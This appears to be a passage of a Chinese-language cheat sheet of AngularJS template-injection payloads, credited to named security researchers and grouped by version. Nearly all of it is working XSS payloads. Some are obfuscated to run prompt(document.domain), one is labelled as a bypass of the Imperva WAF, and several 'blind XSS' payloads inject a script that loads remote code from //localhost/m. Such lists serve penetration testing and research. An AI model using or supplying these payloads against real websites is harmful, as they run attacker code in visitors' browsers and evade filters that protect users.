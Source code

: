```javascript
{{x=767015343;y=50986827;a=x.toString(36)+y.toString(36);a.sub.call.call({}[a].getOwnPropertyDescriptor(a.sub.__proto__,a).value,0,toString()[a].fromCharCode(112,114,111,109,112,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41))()}}
```

```javascript
{{x=767015343;y=50986827;a=x.toString(36)+y.toString(36);a.sub.call.call({}[a].getOwnPropertyDescriptor(a.sub.__proto__,a).value,0,toString()[a].fromCodePoint(112,114,111,109,112,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41))()}}
```

AngularJS 绕过 Waf [Imperva]

```javascript
{{x=['constr', 'uctor'];a=x.join('');b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'pr\\u{6f}mpt(d\\u{6f}cument.d\\u{6f}main)')()}}
```

### 盲 XSS

1.0.1 - 1.1.5 && > 1.6.0 由 Mario Heiderich (Cure53)

```javascript
{{
    constructor.constructor("var _ = document.createElement('script');
    _.src='//localhost/m';
    document.getElementsByTagName('body')[0].appendChild(_)")()
}}
```

更短版本 1.0.1 - 1.1.5 && > 1.6.0 由 Lewis Ardern (Synopsys) 和 Gareth Heyes (PortSwigger)

```javascript
{{
    $on.constructor("var _ = document.createElement('script');
    _.src='//localhost/m';
    document.getElementsByTagName('body')[0].appendChild(_)")()
}}
```

1.2.0 - 1.2.5 由 Gareth Heyes (PortSwigger)

```javascript
{{
    a="a"["constructor"].prototype;a.charAt=a.trim;
    $eval('a",eval(`var _=document\\x2ecreateElement(\'script\');
    _\\x2esrc=\'//localhost/m\';
    document\\x2ebody\\x2eappendChild(_);`),"')
}}
```

1.2.6 - 1.2.18 由 Jan Horn (Cure53, 现在在 Google Project Zero)

```javascript
{{
    (_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'eval("
        var _ = document.createElement(\'script\');
        _.src=\'//localhost/m\';
        document.getElementsByTagName(\'body\')[0].appendChild(_)")')()
}}
```
